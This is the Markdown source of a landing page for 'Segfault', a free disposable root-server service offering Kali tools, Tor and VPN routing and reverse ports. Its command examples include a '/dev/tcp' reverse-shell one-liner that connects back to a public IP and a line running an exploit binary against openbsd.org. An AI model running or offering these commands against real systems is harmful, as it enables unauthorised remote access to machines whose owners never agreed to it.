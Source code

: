 ```yaml
---
layout: default
title: Segfault
description: Disposable Root Servers.
---
```


<!-- <div style="text-align:center"><h1>{{ page.title }}</h1></div> -->

<!-- <div style="width:80%; margin:auto">
</div> -->

## Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

## What it does

__Segfault__ offers free unlimited Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection.

* Dedicated `Root Server` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to `.onion` addresses.
* Log in via `.onion`, `.gsocket` or direct `ssh` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured `.onion` web server. Just put your files in /onion.
* Encrypted storage in `/sec` and `/home` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

## Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**

```shell
apt install nmap && nmap -thc
```

**Work the Internet**

```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**

```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
```

or:

```shell
# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Work the DarkNet:**

```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**

```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**

```shell
ssh -D 127.0.0.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```
<!-- Windows does not like -D 1080 and needs 127.0.0.1:1080 (and does not like 127.1:1080 either) -->

**Connect to your own public PORT:**

```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.
```

or:

```shell
# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

## How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).

The **PREMIUM** service has no restriction. Go premium by donating money or contact us - we give premium access to most users who work on a cool project or users who participate in our discussions.

## Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)
- [Tilde.club](http://tilde.club/)
- [and many others...](https://free-for.dev/)

## Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

## Contact

{% include contact-details.md %}
